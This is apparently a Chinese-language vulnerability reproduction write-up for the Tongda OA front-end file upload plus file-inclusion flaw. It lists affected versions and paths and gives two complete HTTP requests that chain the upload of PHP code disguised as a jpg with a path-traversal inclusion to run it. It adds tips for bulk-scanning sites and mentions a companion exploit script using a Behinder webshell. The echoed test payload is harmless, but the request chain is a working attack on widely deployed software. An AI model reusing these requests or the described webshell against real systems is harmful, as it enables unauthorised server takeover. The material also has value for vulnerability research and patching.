






# 1、漏洞描述

通达OA存在前台任意文件上传漏洞，结合文件包含，可直接获取服务器权限

# 2、影响范围

- 受影响的版本有：

V11版

2017版

2016版

2015版

2013增强版

2013版


- 受影响的文件上传漏洞文件：

/ispirit/im/upload.php


- 受影响的文件包含漏洞文件：

2013版（可能大多数遇到的是这个）：

/ispirit/interface/gateway.php


2017版：

/mac/gateway.php


# 3、本地环境搭建

下载其中一个受影响的版本安装包，直接傻瓜式下一步自动安装。


# 4、漏洞复现

具体源码审计分析就先不看了，漏洞利用具体分两步，第一先上传后缀为jpg、内容为任意（POC验证）或shell（EXP利用）的jpg图片，第二通过文件包含漏洞，将上传后的文件路径组合到POST传输的json格式的form表单之中，通过访问文件包含漏洞的php文件，即可组合实现漏洞验证/利用。

## 4.1、文件上传

坑点1：

Content-Type内容要标明为form表单，并且要有boundary，内容除了那四个-之外，可以自定义，不过要与POST表单中的一致。



坑点2：

POST表单中，每一个表单与其内容之间要有回车换行，这是文件上传的固定格式，否则上传文件会失败。

表单的name值不要改，~~上边三个表单的内容2、123、1最好也别改，会影响返回的内容详细程度。~~

更正一下上边删除线的内容，这三个表单里的内容最好全部改为1，因为后边深入调试的时候，poc批量跑一些站，本来有漏洞的出现了漏报，因这里的数字导致返回不一致，详见坑点3.

脚本和下边的POST包中已更正这些坑点。



坑点3：

这里后期调试的时候，批量跑了一些站，发现存在漏报，如下，这种的是存在漏洞的，但是因为坑点2中删除线中提到的表单内容，导致返回包没返回全，正则取值的时候，就漏掉了。

第二张图中是修正后的返回，其中1标识的是存在漏洞的，2标识的是不存在漏洞的。

脚本和下边的POST包中已更正这些坑点。




坑点4:

并不是第一步文件传上去了，就算成功了，上边总结的两个包含的php文件路径并不全，所以，也有可能文件传上去了，但是不知道或没有这个包含的php文件路径，也是白搭。调试中也遇到这个问题。


POST上传包：

```
POST /ispirit/im/upload.php HTTP/1.1
Host: 127.0.0.1
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.159 Safari/537.36
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarypyfBh1YB4pV8McGB
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=000
Connection: close
Content-Length: 559


------WebKitFormBoundarypyfBh1YB4pV8McGB
Content-Disposition: form-data; name="UPLOAD_MODE"

1
------WebKitFormBoundarypyfBh1YB4pV8McGB
Content-Disposition: form-data; name="P"

1
------WebKitFormBoundarypyfBh1YB4pV8McGB
Content-Disposition: form-data; name="DEST_UID"

1
------WebKitFormBoundarypyfBh1YB4pV8McGB
Content-Disposition: form-data; name="ATTACHMENT"; filename="jpg"
Content-Type: image/jpeg

<?php
echo "this is a friendly test, Please check and repair upload vulnerabilities."
?>
------WebKitFormBoundarypyfBh1YB4pV8McGB--
```

POST文件上传返回（这个返回内容代表上传成功）：

@符号与_ 之间的字符部分（不包含@与_ ）是一个目录名，_到第一个| 之间的字符部分（不包含_与| ）是文件名，后边需要用到这两个组合被文件包含的路径，文件后缀与上传的一致，为jpg



## 4.2、文件包含

不同的通达OA版本，文件包含的php文件不同，一般有两种，详见2、影响范围，

这里就不用上边说的content-type了，将上边提到的目录名和文件名分别替换POST内容中的相应值即可，下边例子中是替换2108和773815306；

POST包：

```
POST /ispirit/interface/gateway.php HTTP/1.1
Host: 127.0.0.1
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.159 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=000
Connection: close
Content-Length: 58

json={"url":"/general/../../attach/im/2108/773815306.jpg"}
```

坑点：

不知为何，请求没有问题的情况下，burpsuit没有返回上传的文件内容，而浏览器却可以；





# 5、脚本

支持poc与exp，配合框架，poc可批量，只返回有漏洞的url，同时返回漏洞被包含文件的form-data，方便验证。

exp只支持单个脚本使用，使用方法详见脚本最下方的注释，其中的webshell为冰蝎原始的，有waf的基本上都能拦截，绕waf另说。

